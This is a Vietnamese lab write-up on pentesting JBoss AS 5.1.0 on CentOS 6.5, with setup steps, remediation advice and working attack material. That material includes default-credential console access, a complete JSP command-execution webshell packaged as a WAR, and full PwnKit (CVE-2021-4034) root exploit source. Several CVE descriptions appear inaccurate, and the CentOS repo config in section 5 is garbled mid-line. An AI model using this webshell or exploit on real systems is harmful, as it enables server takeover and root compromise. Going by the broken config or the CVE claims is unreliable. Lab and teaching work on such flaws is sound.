





# Pentest JBoss AS 5.1.0 trên CentOS 6.5

## 📘 MỤC Tiêu

1. [Cài đặt CentOS 6.5 (không cập nhật lên phiên bản mới nhất)](#1-cài-đặt-centos-65-không-cập-nhật-lên-phiên-bản-mới-nhất)
2. [Cài đặt JBoss AS 5.1.0 với cấu hình mặc định, chạy dưới tài khoản `user1`](#2-cài-đặt-jboss-as-510-với-cấu-hình-mặc-định-chạy-dưới-tài-khoản-user1)
3. [Tìm và khai thác các lỗ hổng public của JBoss AS 5.1.0 để upload webshell](#3-tìm-và-khai-thác-các-lỗ-hổng-public-của-jboss-as-510-để-upload-webshell)
4. [Tìm và khai thác các lỗ hổng leo quyền root trên máy chủ CentOS](#4-tìm-và-khai-thác-các-lỗ-hổng-leo-quyền-root-trên-máy-chủ-centos)
5. [Cập nhật CentOS lên bản mới nhất và hướng dẫn fix lỗ hổng JBoss](#5-cập-nhật-centos-lên-bản-mới-nhất-và-hướng-dẫn-fix-lỗ-hổng-jboss)


## 1. Cài đặt CentOS 6.5 (không cập nhật lên phiên bản mới nhất)

### Bước 1: Tải và chuẩn bị các công cụ cần thiết

1. **Tải CentOS 6.5 ISO**:
    
    - Truy cập vào trang chính của CentOS để tải phiên bản 6.5: CentOS 6.5 ISO download.
        
2. **Tải và cài đặt VMware Workstation hoặc VMware Player**:
    
    - Nếu bạn chưa có VMware, bạn có thể tải VMware Workstation Player hoặc VMware Workstation.
        
    - Cài đặt VMware theo hướng dẫn trên trang tải.
        
### Bước 2: Tạo máy ảo trong VMware

1. **Mở VMware Workstation hoặc VMware Player**.
    
2. **Tạo máy ảo mới**:
    
    - Chọn **Create a New Virtual Machine**.
        
    - Chọn **Typical** (Recommended) và nhấn **Next**.
        
3. **Chọn file ISO CentOS 6.5**:
    
    - Chọn **Installer disc image file (iso)**.
        
    - Chọn **Browse** và chỉ định đường dẫn đến file ISO CentOS 6.5 mà bạn đã tải về.
        
4. **Chọn hệ điều hành**:
    
    - Chọn **Linux** và **CentOS 6** (hoặc **Red Hat Enterprise Linux 6** nếu CentOS không có trong danh sách).
        
    - Nhấn **Next**.
        
5. **Chọn tên máy ảo và vị trí lưu trữ**:
    
    - Đặt tên cho máy ảo và chọn thư mục lưu trữ máy ảo.
        
    - Nhấn **Next**.
        
6. **Cấu hình phần cứng**:
    
    - **CPU**: Chọn số lõi CPU phù hợp với hệ thống của bạn.
        
    - **RAM**: Cấp phát RAM cho máy ảo (tối thiểu 2GB là tốt cho CentOS).
        
    - **Hard Disk**: Chọn dung lượng ổ đĩa cho máy ảo. Bạn có thể chọn 20GB hoặc nhiều hơn tùy thuộc vào nhu cầu.
        
        - Chọn **Store virtual disk as a single file** để dễ dàng quản lý và sao chép sau này.
            
        - Nhấn **Next**.
            
7. **Hoàn tất**:
    
    - Nhấn **Finish** để hoàn thành quá trình tạo máy ảo.
        
### Bước 3: Cài đặt CentOS 6.5

1. **Khởi động máy ảo**:
    
    - Khi máy ảo đã được tạo, nhấn **Power on this virtual machine**.
        
2. **Chạy trình cài đặt CentOS**:
    
    - Máy ảo sẽ khởi động từ ISO CentOS 6.5.
        
    - Chọn **Install or Upgrade an existing system**.
        
3. **Chọn ngôn ngữ và vùng miền**:
    
    - Chọn ngôn ngữ và vùng miền mà bạn muốn sử dụng, sau đó nhấn **Continue**.
        
4. **Cài đặt ổ đĩa**:
    
    - Chọn ổ đĩa nơi bạn muốn cài đặt CentOS.
        
    - Nhấn **Done** và sau đó nhấn **Begin Installation**.
        
5. **Cài đặt phần mềm và thiết lập mật khẩu**:
    
    - Trong quá trình cài đặt, bạn sẽ được yêu cầu thiết lập mật khẩu cho tài khoản root và cấu hình mạng (nếu cần).
        
    - Sau khi hoàn tất, nhấn **Reboot**.
        
### Bước 4: Tắt tính năng tự động cập nhật

Sau khi cài đặt xong, để tắt tính năng tự động cập nhật trong CentOS 6.5, bạn có thể làm theo các bước sau:

1. Mở terminal và chỉnh sửa file cấu hình YUM:

```js
sudo nano /etc/yum.conf
```

2. Thêm dòng sau để loại bỏ việc cập nhật kernel:

```js
[main]
exclude=kernel*
```

3. Lưu lại và thoát.

### Bước 5: Kiểm tra phiên bản CentOS

Bạn có thể kiểm tra phiên bản CentOS bằng lệnh:

```js
cat /etc/centos-release
```

## 2. Cài đặt JBoss AS 5.1.0 với cấu hình mặc định, chạy dưới tài khoản `user1`

YUM không còn sử dụng được trên CentOS 6.5 **vì hệ điều hành này đã quá cũ** và **các kho lưu trữ (repositories)** chính thức của CentOS 6.5 đã **bị gỡ khỏi các máy chủ chính**, chuyển sang kho **lưu trữ (archive)** tại vault.centos.org.

### Bước 1: Cài Java 1.6 thủ công (dạng `.tar.gz`)

1. Tải JDK 1.6 từ máy thật Windows và **copy vào máy ảo CentOS 6.5** qua thư mục chia sẻ hoặc SCP.
    
    - Ví dụ: `jdk-6u45-linux-x64.bin` hoặc `.tar.gz`
        
    - Tải tại: [https://www.oracle.com/java/technologies/javase-java-archive-downloads.html](https://www.oracle.com/java/technologies/javase-java-archive-downloads.html) _(cần đăng nhập)_
        
2. Trên máy ảo:

```js
mkdir -p /opt/java
cp /path/to/jdk-6u45-linux-x64.tar.gz /opt/java
cd /opt/java
tar -xzvf jdk-6u45-linux-x64.tar.gz
```

3. Cấu hình biến môi trường:

```js
# Mở file cấu hình môi trường
nano /etc/profile.d/java.sh
```

Nội dung:

```js
export JAVA_HOME=/opt/java/jdk1.6.0_45
export PATH=$JAVA_HOME/bin:$PATH
```

Rồi chạy:

```js
chmod +x /etc/profile.d/java.sh
source /etc/profile.d/java.sh
```

4. Kiểm tra:

```js
java -version
```

### Bước 2: Tạo user `user1`

```js
useradd user1
passwd user1
```

### Bước 3: Tải và cài JBoss AS 5.1.0

1. Trên máy thật Windows, tải JBoss 5.1.0 từ:
    

- https://download.jboss.org/jbossas/5.1/jboss-5.1.0.GA.zip
    

2. Copy file `jboss-5.1.0.GA.zip` vào máy ảo CentOS (bằng thư mục chia sẻ hoặc `scp`).
    
3. Giải nén:

```js
mkdir -p /opt/jboss
unzip jboss-5.1.0.GA.zip -d /opt/jboss
```

### Bước 4: Cấp quyền cho `user1` chạy JBoss

```js
chown -R user1:user1 /opt/jboss
```

### Bước 5: Cấu hình để `user1` chạy JBoss

1. Đăng nhập dưới quyền user1:

```js
su - user1
```

2. Cấu hình JAVA_HOME cho `user1`:

```js
echo 'export JAVA_HOME=/opt/java/jdk1.6.0_45' >> ~/.bash_profile
echo 'export PATH=$JAVA_HOME/bin:$PATH' >> ~/.bash_profile
source ~/.bash_profile
```

3. Chạy JBoss:

```js
cd /opt/jboss-5.1.0.GA/jboss-5.1.0.GA/bin
./run.sh -b 0.0.0.0
```
Nếu bạn chạy lần đầu, JBoss sẽ khởi động trên cổng `8080` (http) và `1099` (JNDI/RMI)

**Kiểm tra xem JBoss có đang chạy không**: Bạn có thể kiểm tra xem JBoss có đang chạy không bằng cách xem các tiến trình của nó:

```js
ps aux | grep jboss
```

## 3. Tìm và khai thác các lỗ hổng public của JBoss AS 5.1.0 để upload webshell

### 3.1 Tất cả các lỗ hổng đã public của phiên bản JBoss AS 5.1.0

##### 1. **CVE-2010-0738 (JBoss AS 5.1.0 và trước đó)**

**Mô tả**:  
Một lỗ hổng trong cách xử lý dữ liệu HTTP có thể cho phép một kẻ tấn công thực thi mã độc từ xa (Remote Code Execution - RCE). Điều này xảy ra vì có một lỗi trong cách xử lý các yêu cầu HTTP bị lừa đảo trong quá trình triển khai các ứng dụng WAR.

**Tác động**:  
Kẻ tấn công có thể thực thi mã Java trong ngữ cảnh của người dùng đang chạy JBoss AS, có thể chiếm quyền điều khiển máy chủ.

---

##### 2. **CVE-2010-0739 (JBoss AS 5.1.0 và trước đó)**

**Mô tả**:  
Lỗ hổng này là một lỗi XSS (Cross-Site Scripting) trong giao diện quản lý JMX Console của JBoss. Kẻ tấn công có thể lợi dụng lỗ hổng này để chèn mã JavaScript độc hại vào trang quản lý của JBoss, qua đó chiếm quyền của người dùng truy cập vào giao diện quản lý này.

**Tác động**:  
Kẻ tấn công có thể dụ dỗ người quản trị hoặc người dùng truy cập vào trang bị tấn công, từ đó thực thi mã JavaScript độc hại.

---

##### 3. **CVE-2010-4515 (JBoss AS 5.1.0)**

**Mô tả**:  
Lỗi bảo mật này xuất phát từ một vấn đề trong cách JBoss xử lý yêu cầu HTTP có chứa các tham số đặc biệt trong URL. Kẻ tấn công có thể tận dụng lỗ hổng này để tiêm mã hoặc thực thi hành động ngoài dự tính của máy chủ.

**Tác động**:  
Các lỗ hổng này có thể dẫn đến việc lộ thông tin hoặc chiếm quyền điều khiển hệ thống.

---

##### 4. **CVE-2009-1344 (JBoss AS 5.1.0 và trước đó)**

**Mô tả**:  
Lỗ hổng này cho phép kẻ tấn công thực thi mã từ xa thông qua việc khai thác các lỗ hổng trong cơ chế quản lý cấu hình JBoss AS. Lỗi xảy ra khi JBoss không kiểm tra đúng các tập tin cấu hình trước khi nạp chúng vào hệ thống.

**Tác động**:  
Kẻ tấn công có thể thay đổi cấu hình của hệ thống hoặc thực thi mã tùy ý.

---

##### 5. **CVE-2013-2186 (JBoss AS 5.x)**

**Mô tả**:  
Một lỗi trong giao diện quản lý JMX cho phép kẻ tấn công từ xa có thể vượt qua các cơ chế bảo mật của JBoss và có thể truy cập vào hệ thống mà không cần phải xác thực.

**Tác động**:  
Kẻ tấn công có thể thực hiện các hành động quản trị trên hệ thống, bao gồm việc triển khai ứng dụng hoặc thay đổi cấu hình hệ thống.

### 3.2 Thực hành khai thác để upload webshell lên máy chủ

##### 1. Bypass authentication trang quản trị `Administrator Console` để upload webshell.

JBoss mặc định expose trang `Administrator Console` và sử dụng tài khoản mặc định `admin:admin` để truy cập.

[


Khi đã đăng nhập và truy cập thành công, attacker hoàn toàn chiếm quyền sở hữu của admin với đầy đủ phương thức để RCE. Ở đây mình sẽ demo RCE thông qua việc upload webshell.

Trang admin có chức năng upload 1 standalone web application ở dạng `.war`

### Cách tạo webshell application

##### **Bước 1: Tạo cấu trúc thư mục cho ứng dụng web**

1. Tạo một thư mục cho ứng dụng web của bạn. Ví dụ: `myapp`.
```js
mkdir myapp
```

2. Bên trong thư mục `myapp`, tạo một thư mục `WEB-INF` và tạo tệp `web.xml` trong đó.
```js
mkdir -p myapp/WEB-INF
touch myapp/WEB-INF/web.xml
```

##### **Bước 2: Tạo tệp JSP để thực thi các lệnh hệ thống**

1. Tạo tệp `shell.jsp` bên ngoài thư mục `WEB-INF`.
```js
touch myapp/shell.jsp

```

2. Mở tệp `shell.jsp` và dán mã sau để cho phép người dùng nhập lệnh và thực thi lệnh đó trên hệ thống:
```js
<%@ page import="java.util.*,java.io.*"%>
<%
%>
<HTML>
    <BODY>
    Commands with JSP
    <FORM METHOD="GET" NAME="myform" ACTION="">
        <INPUT TYPE="text" NAME="cmd">
        <INPUT TYPE="submit" VALUE="Send">
    </FORM>
    <pre>
        <%
        if (request.getParameter("cmd") != null) {
            out.println("Command: " + request.getParameter("cmd") + "<BR>");
            Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
            OutputStream os = p.getOutputStream();
            InputStream in = p.getInputStream();
            DataInputStream dis = new DataInputStream(in);
            String disr = dis.readLine();
            while ( disr != null ) {
                out.println(disr);
                disr = dis.readLine();
            }
        }
        %>
    </pre>
    </BODY>
</HTML>
```

3. Lưu và đóng tệp sau khi hoàn thành.
### **Bước 3: Tạo tệp `web.xml`**

1. Mở tệp `web.xml` mà bạn đã tạo trong thư mục `WEB-INF`.
```js
nano myapp/WEB-INF/web.xml
```

2. Thêm nội dung sau vào tệp `web.xml` để khai báo servlet cho JSP:
```js
<?xml version="1.0" ?>
<web-app xmlns="http://java.sun.com/xml/ns/j2ee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd"
         version="2.4">

    <servlet>
        <servlet-name>Shell</servlet-name>
        <jsp-file>/shell.jsp</jsp-file>
    </servlet>

</web-app>
```

3. Lưu và đóng tệp sau khi hoàn thành.

##### **Bước 4: Đóng gói ứng dụng thành tệp WAR**

1. Sau khi tạo `shell.jsp` và `web.xml`, bạn sẽ đóng gói ứng dụng thành tệp WAR. Chuyển đến thư mục gốc (nơi chứa thư mục `myapp`), sau đó chạy lệnh sau để tạo tệp WAR:
```js
jar cvf shell.war -C myapp .
```

2. Kiểm tra lại tệp WAR đã được tạo chưa:
```js
ls
```

Bạn sẽ thấy tệp `shell.war` trong thư mục hiện tại.

**Thực hiện tải lên**



Thực hiện truy cập `http://<IP:PORT>/shell/shell.jsp` để vào webshell và thực thi RCE.



## 4. Tìm và khai thác các lỗ hổng leo quyền root trên máy chủ CentOS

Tôi sẽ sử dụng: **Lỗi PwnKit (CVE-2021-4034)**

Lỗ hổng PwnKit (CVE-2021-4034) là một lỗ hổng nâng quyền cục bộ (Local Privilege Escalation) trong công cụ pkexec của Polkit. Đây là một chương trình SUID-root được cài đặt mặc định trên hầu hết các bản phân phối Linux. Lỗ hổng này cho phép người dùng không có quyền nâng cấp lên quyền root trên hệ thống dễ dàng. Lỗ hổng này có một điểm yếu trong việc xử lý bộ gọn nhớ, được phát hiện từ năm 2009 nhưng đến năm 2022 mới được công bố.

### **Các bước thực hiện khai thác:**

#### **Bước 1: Tìm tất cả các file SUID**

- Chạy lệnh sau để tìm các file SUID trong hệ thống:
```js
find / -perm -4000 2>/dev/null
```

**Kết quả:**
    
- `/usr/bin/pkexec` được liệt kê là một file SUID-root.
        
**Giải thích:**
    
- pkexec là một phần của Polkit, cho phép thực thi các lệnh với quyền của người dùng khác (tương tự như sudo). Việc pkexec có quyền SUID-root là một lỗ hổng nghiêm trọng.


  
#### **Bước 2: Kiểm tra quyền của pkexec**

- Chạy lệnh `ls -al /usr/bin/pkexec` để kiểm tra quyền của file pkexec.
    
    **Kết quả:**
    
    - pkexec có quyền SUID-root, cho phép bất kỳ người dùng nào thực thi với quyền root.


#### **Bước 3: Kiểm tra phiên bản pkexec**

- Chạy các lệnh sau để kiểm tra phiên bản pkexec:
```js
/usr/bin/pkexec
/usr/bin/pkexec --version
```

**Kết quả:**

- Phiên bản pkexec là 0.96
, đây là phiên bản dễ bị khai thác (CVE-2021-4034).

#### **Bước 4: Lấy mã khai thác**

- Truy cập trang [PacketStormSecurity](https://packetstormsecurity.com/files/165739/PolicyKit-1-0.105-31-Privilege-Escalation.html) để tải mã khai thác.
    
    **Các file cần tạo:**
    
    - **Makefile**
        
    - **evil-so.c**
        
    - **exploit.c**
        
#### **Bước 5: Tạo các file khai thác**

- **Makefile:**
```js
all:
    gcc -shared -o evil.so -fPIC evil-so.c
    gcc exploit.c -o exploit
clean:
    rm -r ./GCONV_PATH=. && rm -r ./evildir && rm exploit && rm evil.so
```

- **evil-so.c:**
```js
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void gconv() {}

void gconv_init() {
    setuid(0);
    setgid(0);
    setgroups(0);
    execve("/bin/sh", NULL, NULL);
}
```

- **exploit.c:**
```js
#include <stdio.h>
#include <stdlib.h>

#define BIN "/usr/bin/pkexec"
#define DIR "evildir"
#define EVILSO "evil"

int main()
{
    char *envp[] = {
        DIR,
        "PATH=GCONV_PATH=.",
        "SHELL=ryaagard",
        "CHARSET=ryaagard",
        NULL
    };
    char *argv[] = { NULL };
    
    system("mkdir GCONV_PATH=.");
    system("touch GCONV_PATH=./" DIR " && chmod 777 GCONV_PATH=./" DIR);
    system("mkdir " DIR);
    system("echo 'module\tINTERNAL\t\t\tryaagard//\t\t\t" EVILSO "\t\t\t2' > " DIR "/gconv-modules");
    system("cp " EVILSO ".so " DIR);
    
    execve(BIN, argv, envp);
    return 0;
}
```

#### **Bước 6: Biên dịch mã khai thác**

- Sử dụng lệnh `make` để biên dịch mã khai thác.
    
    **Kết quả:**
    
    - Các file `evil.so` và `exploit` được tạo thành công.

#### **Bước 7: Chạy khai thác**

- Chạy khai thác với lệnh:
```js
./exploit
```

**Kết quả:**

- Sau khi chạy khai thác, người dùng đã có được một shell root




## 5. Cập nhật CentOS lên bản mới nhất và hướng dẫn fix lỗ hổng JBoss

### **1. Cập nhật máy chủ centos lên bản mới nhất để khắc phục lỗ hổng leo quyền**

##### Bước 1: Sao lưu các repo cũ

Backup lại các file `.repo` hiện tại (phòng khi lỗi):
```js
sudo mkdir /etc/yum.repos.d/backup
sudo mv /etc/yum.repos.d/*.repo /etc/yum.repos.d/backup/
```

##### Bước 2: Tạo repo mới trỏ vào vault

Tạo file repo mới:

```js
sudo tee /etc/yum.repos.d/CentOS-Vault.repo > /dev/null <<EOF
[base]
name=CentOS-6.10 - Base
baseurl=http://vault.centos.org/6.10/os/\$basearch/
gpgcheck=13: Dọn dẹp cache YUM và tiến hành cập nhật

1. Làm sạch cache:
    
```js
sudo yum clean all
```

2. Tiến hành update tất cả các gói:

```js
sudo yum update -y
```

**Chờ quá trình này hoàn tất** (sẽ mất vài phút tùy tốc độ mạng).

##### Bước 4: Kiểm tra lại phiên bản sau cập nhật

Sau khi cập nhật xong, kiểm tra lại:

```js
cat /etc/centos-release
```

Kết quả sẽ là:

```js
CentOS release 6.10 (Final)
```

### **2. Hướng dẫn fix lỗ hổng JBoss AS 5.1.0**

Phiên bản **JBoss AS 5.1.0** bị rất nhiều lỗi nghiêm trọng như:

- **CVE-2010-1428** (Deployment File Upload)
    
- **CVE-2017-12149** (JMXInvokerServlet RCE)
    
- **Authentication Bypass**, **Remote Code Execution**, **Management Interface không có bảo mật**, v.v.
    
**Cách khắc phục:**

> JBoss 5.1.0 đã quá cũ và hết hỗ trợ → KHÔNG có bản vá. Bạn chỉ có thể khắc phục bằng cách **hạn chế quyền truy cập** và **vá thủ công**.

#### Cách làm:

1. **Chặn truy cập console từ bên ngoài** (rất quan trọng)
    
Sửa file `server/default/deploy/management/console-mgr.sar/web-console.war/WEB-INF/web.xml`:
```js
<security-constraint>
  <web-resource-collection>
    <web-resource-name>JBoss Web Console</web-resource-name>
    <url-pattern>/*</url-pattern>
  </web-resource-collection>
  <auth-constraint>
    <role-name>JBossAdmin</role-name>
  </auth-constraint>
</security-constraint>
```

=> Điều này buộc người dùng phải **xác thực** mới truy cập được console.

2. **Bật xác thực HTTP Basic** cho JMX Console:
    
- Sửa file `/server/default/deploy/jmx-console.war/WEB-INF/web.xml`
    
- Tương tự, thêm phần security constraint và xác thực.
    
3. **Đặt mật khẩu mạnh cho JBoss**:
    
- Tạo user, thêm mật khẩu cho JMX Management.
    
4. **Chặn port 8080 / 8443 từ bên ngoài** bằng firewall: Ví dụ, chặn mọi truy cập đến port 8080:
```js
sudo iptables -A INPUT -p tcp --dport 8080 -s 127.0.0.1 -j ACCEPT
sudo iptables -A INPUT -p tcp --dport 8080 -j DROP
```

5. **Nâng cấp JBoss**:
    
- Giải pháp an toàn nhất là **chuyển sang WildFly** (phiên bản mới của JBoss).
    
- WildFly 26 trở lên có đầy đủ bảo mật.

# Tài liệu tham khảo

https://hackmd.io/@janlele91/Bypj2K_4h#3-Leo-thang-%C4%91%E1%BA%B7c-quy%E1%BB%81n-tr%C3%AAn-CentOS-65

http://geine.com/blog/exploiting-pwnkit-cve-20214034
